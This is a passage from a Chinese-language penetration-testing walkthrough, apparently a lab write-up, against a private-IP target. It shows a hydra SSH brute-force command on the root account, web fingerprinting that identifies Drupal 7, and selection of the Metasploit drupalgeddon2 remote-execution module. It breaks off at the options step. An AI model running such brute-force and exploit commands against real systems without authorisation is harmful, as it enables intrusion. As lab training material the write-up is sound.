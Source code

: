 说明支持密码登录，但是密码不对

##### 22-SSH弱口令爆破(爆破着玩)

尝试`root`账户的密码爆破，利用工具`hydra`，线程-t为6

```
hydra -l root -P /usr/share/wordlists/metasploit/password.lst -t 6 -vV 192.168.223.193 ssh -s 22
```

在等待结果的同时让我们尝试使用另外的信息收集

#### 80-HTTP端口的信息收集

访问 http://192.168.223.193:80 发现是一个有名的`CMS`

##### 信息收集-网站指纹

```
whatweb -v http://192.168.223.193:80
```

确认了`CMS`的版本信息 `Drupal 7`

##### 漏洞利用-网站指纹

既然确定了版本，直接上工具

```
msfconsole



searchsploit Drupal 7
```

查看了一下

#### 其他端口的信息收集

不需要啦~

### 漏洞利用-getwebshell

觉得还是远程执行的`exp`比较好

```
search Drupal 7

&gt;use exploit/unix/webapp/drupal_drupalgeddon2
```

选一个时间靠后并且`Rank`比较高的

```
# 感觉只要设置攻击机以及监听端口，还有目标机器

show options
```
